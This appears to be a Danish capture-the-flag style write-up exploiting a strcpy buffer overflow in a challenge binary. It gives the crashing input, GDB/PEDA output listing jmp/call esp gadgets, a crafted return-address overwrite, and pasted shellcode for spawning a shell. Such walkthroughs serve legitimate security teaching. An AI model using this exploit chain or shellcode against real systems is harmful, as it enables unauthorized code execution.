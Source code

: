 Der bruges "stcpy" uden et bounds-check, dvs. at der skrives ind i en buffer uden at der er tjekket om bufferen er stor nok. Det må give et buffer overflow. Vi prøver at give en meget lang streng:

```shell
./import_ønsker.elf $(python -c 'print "A"*401')
```

Dvs. vi sender en tekst streng med 401 A'er, og får:

```text
Program received signal SIGSEGV, Segmentation fault.
```

For at lokalisere hvor der crashes, kan man bruge f.eks. GDB (med PEDA udviddelsen) eller IDA Pro Freeware, der begge har en debugger.

Når vi har lokaliseret hvilke bytes i vores input text, der overskriver RIP (Instruktions Pointeren), så skal vi finde noget kode at hoppe til. Typisk vil dette være et hop til stakken, hvor vores kode ligger. Dette findes f.eks. i GDB/PEDA:

```text
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
gdb-peda$ jmpcall esp
0x8049ddc : jmp esp
0x80b21a3 : jmp esp
0x80b21cb : jmp esp
0x80b3b0f : call esp
0x80b3d93 : jmp esp
0x80b4033 : call esp
0x80b4047 : call esp
0x80b59ef : call esp
0x80c2570 : call esp
0x80c568b : call esp
0x80ceff3 : jmp esp
0x80d3317 : call esp
0x80d4c7f : call esp
gdb-peda$ 
```

Vi tager den første, og verificerer i vores debugger at instruktionen bliver eksekveret:

```shell
./import_ønsker.elf $(python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xdc\x9d\x04\x08BBBBBBBB"')
```

Nu skal vi have noget assembler kode, som kan give os en shell - dvs. "shell-kode". Denne kode skal så bare ligge i forlængelse af den første instruktion. Vi kan f.eks. bruge koden fra:

http://shell-storm.org/shellcode/files/shellcode-358.php

Dvs.:

```text
\x1b\x5f\x31\xc0\x6a\x53\x6a\x18\x59\x49\x5b\x8a\x04\x0f\xf6\xd3\x30\xd8\x88\x04\x0f\x50\x85\xc9\x75\xef\xeb\x05\xe8\xe0\xff\xff\xff\x1c\x7f\xc5\xf9\xbe\xa3\xe4\xff\xb8\xff\xb2\xf4\x1f\x95\x4e\xfe\x25\x97\x93\x30\xb6\x39\xb2\x2c
```
